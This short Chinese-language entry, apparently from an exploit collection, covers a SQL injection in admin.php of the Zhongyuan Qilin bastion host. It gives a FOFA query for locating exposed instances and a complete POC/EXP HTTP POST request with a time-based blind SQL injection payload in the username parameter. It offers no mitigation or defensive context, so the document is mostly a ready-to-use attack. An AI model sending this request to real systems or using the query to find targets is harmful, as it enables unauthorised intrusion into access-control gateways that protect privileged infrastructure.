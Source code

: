 # 中远麒麟 堡垒机 admin.php SQL注入漏洞

## 网络测绘

fofa: cert.subject="Baolei" || title="麒麟堡垒机"

## POC / EXP

```
POST /admin.php?controller=admin_commonuser HTTP/1.1
Host: 
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/116.0

username=admin' AND (SELECT 6999 FROM (SELECT(SLEEP(5)))ptGN) AND 'AAdm'='AAdm
```